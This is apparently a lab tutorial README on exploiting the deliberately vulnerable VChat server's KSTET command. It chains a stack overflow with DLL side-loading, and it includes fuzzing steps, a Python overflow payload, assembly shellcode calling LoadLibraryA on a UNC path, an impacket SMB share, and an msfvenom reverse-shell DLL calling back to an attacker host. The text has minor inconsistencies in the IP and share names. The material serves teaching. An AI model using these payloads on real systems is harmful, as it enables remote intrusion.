





# VChat KSTET Exploit: DLL Side-Loading
> [!NOTE]
> - The following exploit and its procedures are based on an original [Blog](https://fluidattacks.com/blog/vulnserver-kstet-alternative/) from fluid attacks.
> - Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used, and any compiler flags applied during the compilation process.
___

As with the previous exploitation of the [KSTET](https://github.com/DaintyJet/VChat_KSTET_Multi) and similarly constrained commands such as [GTER](https://github.com/DaintyJet/VChat_GTER_EggHunter) we are limited by the space available on the buffer which was allocated on the stack. We will not be repeating the use of [Egghunters](https://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) or [Code-Reuse](https://github.com/DaintyJet/VChat_GTER_CodeReuse) exploitation strategies. We will be using a [sideloading](https://www.crowdstrike.com/blog/dll-side-loading-how-to-combat-threat-actor-evasion-techniques/) technique. This means a legitimate executable will use a function like [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) to load a malicious DLL into the processes memory and use this action to execute malicious code.

DLLs are [Dynamic-Link-Libraries](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library); they are used as shared libraries that can be loaded at runtime by a process. This is where the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function comes into play, allowing us to use the malicious functions embedded in the DLL.

> [!IMPORTANT]
> Please setup the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!

## Exploitation
> [!IMPORTANT]
> The offsets and addresses shown in the following screenshots may differ from those used in the python and ruby code in this repository. This is because the offsets change slightly between the Windows 10 version of VChat compiled with GCC and the Windows 11 version compiled with the Visual Studio compiler.
## VChat Setup and Configuration
This section covers the compilation process and use of the VChat Server. We include instructions for both the original VChat code, which was compiled with MinGW and GCC on Windows, and the newly modified code, which can be compiled with the Visual Studio C++ compiler.

### Visual Studio

<details>

1. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun) for the *essfunc* DLL.
2. Build the project, as this contains inline assembly the target DLL file must be compiled as a x86 DLL (32-bits).
3. Copy the Resulting DLL from the *Debug* folder in the [Essfunc Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun/Debug) into the *Debug* folder in the [VChat Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat/Debug).

	

4. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat) for the *VChat* EXE.
5. Build the Project, our executable will be in the *Debug* folder. You can then launch the executable!

</details>

### Mingw/GCC

<details>

Compile VChat and its dependencies if they have not already been compiled. This is done with mingw.

1. Create the essfunc object File.
	```powershell
	# Compile Essfunc Object file
	$ gcc.exe -c essfunc.c
	```
2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.
	```powershell
	# Create a DLL with a static (preferred) base address of 0x62500000
	$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
	```
      * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll"; these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux.
      * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate a import library "libessfunc.a" [2].
      * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
      * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o".
3. Compile the VChat application.
	```powershell
	# Compile and Link VChat
	$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
	```
      * ```vchat.c```: The source file is "vchat.c".
      * ```-o vchat.exe```: The output file will be the executable "vchat.exe".
      * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".

</details>

## Exploit Process
The following sections cover the process that should (Or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions, such as having access to the application binary that may not be realistic in cases where you are exploiting remote servers; however, the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

### Information Collecting
We want to understand the VChat program and how it works in order to exploit it effectively. Before diving into the specifics of how VChat behaves, the most important information for us is the IP address of the Windows VM that runs VChat and the port number that VChat runs on.

<details>

1. Launch the VChat application.
	* Click on the Icon in File Explorer when it is in the same directory as the essfunc DLL.
	* You can also use the simple [VChatGUI](https://github.com/daintyjet/VChatGUI) program to launch the executable.
2. (Optional) **Linux**: Run NMap.
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the "-A" flag as the term aggressive as it does more than the normal scans and is often easily detected.
   * This scan will also attempt to determine the version of the applications, which means when it encounters a non-standard application such as *VChat*, it can take 30 seconds to 1.5 minutes, depending on the speed of the systems involved, to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications.
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command, this will give us some information regarding the available commands the server processes and the arguments they take. This provides us a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with `CTL+]`.
   * An example is shown below:

		

4. **Linux**: We can try a few inputs to the *KSTET* command and see if we can get any information. Simply type *KSTET* followed by some additional input as shown below:

	

	* Now, trying every possible combination of strings would get quite tiresome, so we can use the technique of *fuzzing* to automate this process, as discussed later in the exploitation section.
	* In this case we will do some fuzzing to keep the exploit sections relatively consistent, but as you can see we know crashing this command will not take much!

</details>

### Dynamic Analysis
This exploitation phase is where we launch the target application or binary and examine its behavior based on the input we provide. We can do this both using automated fuzzing tools and manually generated inputs. We do this to discover how to construct a payload to modify VChat's behavior. We want to construct an attack string as follows: `padding-bytes|address-to-overwrite-return-address|shell-code`, where | means concatenation. Therefore, we need to know how many bytes are required in order to properly pad and align our overflow to overwrite critical sections of data.

#### Launch VChat
1. Open Immunity Debugger

	

    * Note that you may need to launch it as the *Administrator* this is done by right-clicking the icon found in the Windows search bar or on the desktop as shown below:

	

2. Attach VChat: There are two options!
   1. When the VChat is already Running.
        1. Click File -> Attach.

			

		2. Select VChat.

			

   2. (Optional) When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat.

			

        2. Click Debug -> Run.

			

        3. Notice that a Terminal was opened when you clicked "Open". Now you should see the program output in the displayed terminal.

			
3. Ensure that the execution is not paused, click the red arrow (Top Left).

	

#### Fuzzing

We use [boofuzz](https://boofuzz.readthedocs.io/en/stable/index.html) for fuzzing, in which methodologically generated random data is injected into the target. It is hoped that the random data will cause the target to perform erratically, for example, crash. If that happens, bugs are found in the target.

1. Open a terminal on the **Kali Linux Machine**.

Go into the boofuzz folder
```
┌──(kali㉿kali)-[~]
└─$ cd ~/boofuzz
```

Start a boofuzz virtual environment so that it does not interfere with other Pyhting settings.
```                                                                                                                                          
┌──(kali㉿kali)-[~/boofuzz]
└─$ source env/bin/activate
                                                                                                                                          
┌──(env)─(kali㉿kali)-[~/boofuzz]
└─$ 
```

2. Run the fuzzing script [boofuzz-vchat-KSTET-DLL.py](SourceCode/boofuzz-vchat-KSTET-DLL.py)

```
python boofuzz-vchat-KSTET-DLL.py
```
*boofuzz-vchat-KSTET-DLL.py* works as follows: builds a connection to the target, creates a message template with some fixed fields and a fuzzable field that will change, and then begins to inject the random data case by case into the target. One test case refers to one random message injected into the target.


5. Observe the results on VChat's terminal output.

	

	* Notice that VChat appears to have crashed after our second message! Based on the stack's status, we can see that we do not need to send a message of length *5000* as was done when the server crashed (in my case). We can see that there is around 100 bytes of space before the series of `A`s stop.
6. We can now try a few manual tests using the [`telnet`](https://linux.die.net/man/1/telnet) client, as shown below. We range from a small set of four A's to near a hundred.

	

	* Here we crash the server once we have entered ninety six `A`s.

	

	* We can further see that VChat crashes once it receives sixty `A`s.
7. We can see at the bottom of *Immunity Debugger* that VChat crashed due to a memory access violation. This means we likely overwrote the return address stored on the stack, leading to the EIP being loaded with an invalid address or we overwrote a SEH frame. This error could have also been caused if we overwrote a local pointer that is then dereferenced... However, we know from previous exploits on VChat this is unlikely.

	

8. We can compare the Register values before and after the fuzzing in Immunity Debugger. Here, we can see the EIP has been overwritten. This means we overwrote the return address on the stack!
	* Before

		

	* After

		

      * The best way to reproduce this is to use [exploit0.py](./SourceCode/exploit0.py).
9. We can examine the messages SPIKE was sending by examining the [tcpdump](https://www.tcpdump.org/) or [wireshark](https://www.wireshark.org/docs/wsug_html/) output.

	

	* After capturing the packets, right-click a TCP stream and click follow! This allows us to see all of the output.

		

#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the return address is located on the stack. We can use the *Metasploit* program [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) to generate this string. By analyzing the values stored in the register which will be a subset of the generated string after a crash, we can tell where in memory the return address is stored. We can generate a string with a length of 100, as we know our program crashes with an input of less than that size, though you may use any size that will also lead to the program crashing.
	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
	```
	* This will allow us to inject and overwrite a new return address at the location our program reads the original return address from.

2. Modify your exploit code to reflect the [exploit1.py](./SourceCode/exploit1.py) script and run it to inject a cyclic pattern into the Vulnserver program's stack and observe the EIP register.

	

3. Notice that the EIP register reads `41326341` in this case, we can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the return address's offset based on our search string's position in the pattern we sent to VChat.
	```
	$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41326341
	```
	* This will return an offset as shown below, in this case the value is `66`.

	

4. The next thing that is done, is to modify the exploit program to reflect the script [exploit2.py](./SourceCode/exploit2.py). We chose to overflow the return address with the a series of `B`s since this will be recognizable in the register, and lead to a crashed program state allowing us to view the `EIP` register after the overflow occurred to verify this.
   * We do this to validate that we have the correct offset for the return address!

		

		* See that the EIP is a series of the value `42` that is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the program.
		* Note: It took a few runs for this to work and update in Immunity debugger.
5. (Optional) Use the [mona.py](https://github.com/corelan/mona) Python program within Immunity Debugger to determine useful information about our target process. While the *cyclic pattern* from [exploit1.py](./SourceCode/exploit1.py) is in memory, we can run the command ```!mona findmsp``` in the command line at the bottom of the Immunity Debugger GUI. **Note:** We must have sent the cyclic pattern, and it must be present in the stack frame when we run this command!

	

      * We can see that the offset (Discovered with [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) earlier) is at the byte offset of `66`, with the ESP at the offset of `70` and has `24` bytes following it, and the EBP is at the byte offset `62`.
      * The most important thing we learned is that we have `24` bytes to work with!
6. Open the `Executable Modules` window from the **views** tab. This allows us to see the memory offsets of each dependency VChat uses. This will help inform us as to which `jmp esp` instruction to pick since we want to avoid any *Windows dynamic libraries* since their base addresses may vary between executions and systems.

	

7. Use the command `!mona jmp -r esp -cp nonull -o` in the Immunity Debugger's GUI command line to find some `jmp esp` instructions.

	

      * The `-r esp` flag tells *mona.py* to search for the `jmp esp` instruction.
      * The `-cp nonull` flag tells *mona.py* to ignore null values.
      * The `-o` flag tells *mona.py* to ignore OS modules.
      * We can select any output from this.

	

      * We can see there are nine possible `jmp esp` instructions in the essfunc DLL that we can use, any should work. We will use the last one, `0x625014E6`.
8. Use a program like [exploit3.py](./SourceCode/exploit3.py) to verify that this works. By setting breakpoints and injecting the `jmp esp` instruction into the function's return address we can verify that it is possible to jump back to the stack in order to execute shell code.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/597aab51-547b-402b-bae9-6285930b66d8

   1. Click on the black button highlighted below, and enter in the address we decided in the previous step.

		

   2. Set a breakpoint at the desired address (right-click).

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program until an overflow occurs (See EIP/ESP and stack changes). You should be able to tell by the black text at the bottom of the screen that says `Breakpoint at ...`.

		

         * Notice that the EIP now points to an essfunc.dll address!
	4. Once the overflow occurs, click the *step into* button highlighted below.

		

	5. Notice that we jumped to the stack we just overflowed!

		


Now that we have all the necessary parts for the creation of a exploit we will discuss what we have done so far (the **exploit.py** files), and how we can now expand our efforts to gain a shell in the target machine.

### Exploitation
1. We know from one of our previous runs of `mona.py` (`!mona findmsp`) that we have a very limited amount of space following the *EIP* register. As we have done in previous exploits, we will perform a short relative jump to the start of the buffer so we can use the sixty-six bytes that precede our return address for our first-stage shell code.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/f0c15355-9098-4e24-8c60-48652d86bf92

   1. Set a breakpoint at the `JMP ESP` instruction as we did in the previous section.

		

   2. Modify your exploit to reflect the [exploit3.py](./SourceCode/exploit3.py) program and run it until an overflow occurs (See EIP/ESP and stack changes). You should be able to tell by the black text at the bottom of the screen that says `Breakpoint at ...`. We are doing this to generate and verify that a relative short jump instruction allows us to jump to the start of our buffer, where we have more space to work with.

		

	3. Now scroll to the top of the buffer; we know where the top of the buffer is since it is where the first `A` or Hex value `41` will be located.

		

	4. Now right click the address we jumped to, and select Assemble creating the `JMP <Address>` command, where `<Address>` is replaced with the starting address of our buffer.

		* Select Assemble.

			

		* Assemble the instructions.

			

	5. Once you click *step* we should arrive at the start of the buffer, right-click the newly assembled instruction and select *Binary Copy*.

		

2. Now that we have the assembled instructions for the short jump, place them into the Python program as shown in [exploit4.py](./SourceCode/exploit4.py).
	```python
	PAYLOAD = (
		b'KSTET ' +
		b'A' * 66 +
		# 625014E6    FFE4                        JMP ESP
		struct.pack('<L', 0x625014E6) +
		# JMP SHORT 0xb8
		b'\xeb\xb8' +
		b'C' * (26 - 2)
	)
	```
3. Restart the VChat server, and set a breakpoint at the `JMP ESP` instruction, run the [exploit4.py](./SourceCode/exploit4.py) program and ensure that it works!

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/c509b866-ddc1-4fcf-8eff-3adc1a85d92b

#### Malicious DLLs
As was previously discussed in the introduction of this walkthrough, DLLs are [Dynamic-Link-Libraries](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library); these are libraries that are loaded into memory, and *shared* between processes. If a program is set to use a custom DLL or is not statically linked then the addresses for the functions in a DLL will be resolved by a [Runtime Dynamic Linker](https://learn.microsoft.com/en-us/windows/win32/dlls/run-time-dynamic-linking) or a [Loadtime Dynamic Linker](https://learn.microsoft.com/en-us/windows/win32/dlls/load-time-dynamic-linking). In our case, the use of the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) means we will be invoking the [Runtime Dynamic Linker](https://learn.microsoft.com/en-us/windows/win32/dlls/run-time-dynamic-linking). Once we have loaded and linked our malicious DLL to the executable, we can use any function located within the DLL. Additionally, if the DLL contains a [DLLMain(...)](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library#the-dll-entry-point) function, this will be executed when the DLL is loaded. This is not present in all DLLs, and when it is, it will often be used to initialize any data structures or variables that will be needed by the DLL's functions. This attack should **not be confused** with DLL load order hijacking attacks, which exploit the [search order](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order) Windows uses for resolving DLLs.

DLLs are commonly used in Windows applications for a [number of reasons](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library#dll-advantages). One of the first to be mentioned is that fewer system resources will be used when the DLL is used by many processes as rather than loading and linking the library for each individual process, the DLL will be loaded into memory once and each process that uses the DLL will be linked against it. DLLs also allow programs to load the correct DLL at runtime based on the requirements and conditions of the system, which promotes more modular systems. Finally, we can see that if a program uses DLLs, they do not need to be recompiled and relinked if the DLL is modified and replaced; only if the function signature or returned values changes would the executable need to be modified and recompiled.

This is why DLLs are used in the Windows OS to provide API wrappers to the OS Systemcalls; in addition to the fact programmers rarely make direct system calls today, the interrupt signals used to control the Windows system calls are not the most stable and change from time to time. You could use some additional [online resources](https://j00ru.vexillium.org/syscalls/nt/64/) that track the systemcall interfaces and recompile your program for each build but, it is much simpler to use the APIS provided in the DLLs!


We will be using the fact that the [LoadLibraryA](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya) function can accept a location string in the form of a [Universal Naming Convention (UNC)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc) string. This allows us to use the `LoadLibraryA` function to load a malicious DLL hosted on a remote [SMB share](https://learn.microsoft.com/en-us/windows-server/storage/file-server/file-server-smb-overview). We will use the [Impacket-Scripts](https://www.kali.org/tools/impacket-scripts/) package of exploitation tools to host a SMB share on the Kali Linux machine!

We can **generate** the malicious DLL using [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) as it is capable of formatting output for use as a DLL. In this case, the shellcode will be contained in the DLL Main function previously discussed!

```
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=none -f dll -o mal.dll
```
* `-a x86`: Specify this is against a 32-bit program.
* `--platform windows`: Specify this is against a process on a Windows system.
* `-p `: Payload we are generating shellcode for.
    * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
    * `LHOST=10.0.2.7`: The remote listening host's IP, in this case, our Kali machine's IP, `10.0.2.7`.
    * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    * `EXITFUNC=none`: If the program runs without an exit function, it will likely crash after this finishes executing!
* `-f`: The output format.
    * `dll`: Format for use as a DLL.

Now we know from the [UNC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc) datatype that we have to provide a string in the form `= "\\" host-name "\" share-name  [ "\" object-name ]` when attempting to load and attach a DLL to our process. In our case, this could be something like `\\10.0.2.15\ABCD\mal.dll` where `10.0.2.15` is the IP of the Kali, `A` is the name of our SMB share and `mal.dll` is the malicious DLL object we are sharing. We can generate an SMB share using the following command: This should be run in the directory that contains the malicious DLL `mal.dll`.
```
$ sudo impacket-smbserver -smb2support ABCD .
```
* `sudo`: This command and operation require root privileges to bind to the well-known SMB port 445.
* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
* `smb2support`: Enable SMB2 Support.
* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
* `.`: This is the current directory we are in, we can specify a path to share a specific directory.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/ee57745f-bddc-4f6f-8788-372524798848

#### Shellcode Generation
We will as has been stated many times previously be using the `LoadLibraryA` function,requires which has the following function signature:
```
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```
* `LPCSTR lpLibFileName`: This is a string specifying the DLL to be loaded, this can be a UNC path.
* This will return the handle to the module if it succeeds. Otherwise, it will be NULL.

The string we need to push on the stack is `\\10.0.2.15\ABCD\mal.dll` as was discussed in the [Malicious DLLs](#malicious-dlls) section earlier. As we are working with a 32-bit system, we need to split this string of 24 bytes (23 chars + 1 NULL) into 4-byte chunks for the optimal PUSH operations onto the stack. The [original blog](https://fluidattacks.com/blog/vulnserver-kstet-alternative/) provides the following shell script.

```sh
$ for i in $(echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
```
To more easily explain this I will be breaking this up below:


First, we will look at the conditional expression of the for loop.
```sh
$(echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8)
```
* [`echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll'`](https://www.man7.org/linux/man-pages/man1/echo.1.html): This will print "\\\\10.0.2.15\ABCD\mal.dll" to the standard output.
	* `-n`: Do not print the newline character.
	* `-e`: Evaluate escape characters (Ex. \n \e \t...).
* [`| xxd -ps`](https://linux.die.net/man/1/xxd): Pipe the output of the *echo* command into the stdin of *xxd* which takes the input and converts the stdin values to their equivalent hexadecimal output.
	* `-p`: Output in plain hexdump style.
	* `-s`: Sets starting seek position, since this is empty we are reading from stdin.
* [`| tr -d '\n'`](https://www.man7.org/linux/man-pages/man1/tr.1.html): Pipe the output of the *xxd* command into the *tr* command which can be used to translate or delete characters.
	* `-d '\n'`: Delete any newline characters.
* [`fold -w 8`](https://www.man7.org/linux/man-pages/man1/fold.1.html): Pipe the output of the *tr* command into the *fold* which will wrap each line of input (1) to fit in the width we specify.
	* `-w 8`: Specify the width as 8 characters.
* This means we convert the string into a series of 4-byte hexadecimal chunks as the for loop is written as `for i in $(...)` we can reference each line as `$i`.

Now we can look at the body of the for loop:
```sh
$ python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())";
```
* `python3 -c`: Run the python interpreter on the following code, write the results to stdout.
	* `import struct`: The module "struct" performs conversions between Python values and C structs represented as Python bytes objects.
	* `print(struct.pack('<L', 0x$i).hex())`: Print one of the lines ($i) resulting from the conditional statement as a little endian hexadecimal value to stdout.
	* This is repeated till all the 4-byte chunks have been converted.

Now we can see what happens to all the resulting stdout values after the loop has finished running.
```sh
...| tac | sed 's/^/push 0x/g'
```
* [`tac`](https://www.man7.org/linux/man-pages/man1/tac.1.html): The stdout values produced by the body of the loop are piped into the *tac* command, this reverses the input printing it to stdout (We push the bytes in reverse order to the stack).
* [`sed`](https://www.gnu.org/software/sed/manual/sed.html): The results of *tac* are printed to stdout and are piped into *sed* a stream editor, this goes through the input and replaces/inserts (`s/`) the start of the string (`^`), with `push 0x` without case conversion `/g`.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/ea2f908f-3bb5-4600-8005-5848537456cf

**Now we can create the resulting Shellcode**:


1. First, we need to move our stack pointer by modifying the `ESP` register, so it is not above our shellcode. This is done to prevent the shellcode from overwriting part of itself with values used when making function calls or other stack operations. If the `ESP` value is below or less than the current shellcode address, there will be no conflict as the stack grows down, while the shellcode will execute instructions at higher addresses sequentially.
	```
	sub esp,0x64            ; Move ESP pointer to be behind (above) our shellcode as the stack grows down this prevents overwrites
	```
2. Next we need to zero out a register in order to write a NULL byte to the stack. This is done as we cannot transmit null bytes.
	```
	xor ebx,ebx             ; Zero out EBX to be the NULL terminator
	push ebx                ; PUSH NULL byte
	```
3. Now we can add the instructions used to push the UNC string onto the stack.
	```
	push 0x6c000000
	push 0x6c642e6e
	push 0x77705c58
	push 0x5c35312e
	push 0x322e302e
	push 0x30315c5c
	```
	* **Notice**: Our first push instruction contains the bad character `0x00`; rather than using an encoder I will simply add three characters to the SMB share's identifier to pad it out as shown below:
		```sh
		$ for i in $(echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
		```

4. Now we can push the arguments `LoadLibraryA` uses onto the stack, including a pointer to the UNC string which we have just finished inserting onto the stack.
	```
	push esp		; Pointer of the UNC path
	```
5. Now we need the address of the `LoadLibraryA` function in order to call it, to get this information we can use [Arwin](https://github.com/xinwenfu/arwin) as shown below:
	```
	arwin.exe kernel32 LoadLibraryA
	```
	* `arwin.exe`: This is the arwin address resolution program.
	* `kernel32`: This is the DLL that the function is stored in that we should search.
	* `LoadLibraryA`: The function whose address we are attempting to resolve.

	

6. Now that we have the address of `LoadLibraryA` we can insert the instructions required to make the call to this function.
	```
	mov ebx,0x76ba12a0      ; Move into EBX the address of 'LoadLibraryA'
	call ebx
	```
7. Once we have a [shellcode.asm](./SourceCode/shellcode.asm) file, we can generate the shellcode we will use in the exploit!
	1. Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`.
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format.
		* `-o shellcode.o`: Shellcode file.
		* `shellcode.asm`: Input file.
	2. Extract the binary with a simple [shell script](./SourceCode/extract.sh).
		```sh
		for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
			echo -n '\x'$i;
		done;
		echo
		```
		* `for i in`: For each value `$i` generated by the following command.
		* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
			* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
			* `grep "^ "`: Extract only those lines containing assembly.
			* `cut -f2`: Extract the second field; this contains the hex representation of the instructions.
		* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
		* `echo`: Print an extra line.
		* **Note**: If you create this file be sure to make it executable `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.

		

#### Execution
Now we have everything we need to exploit the VChat server using the DLL sideloading technique!

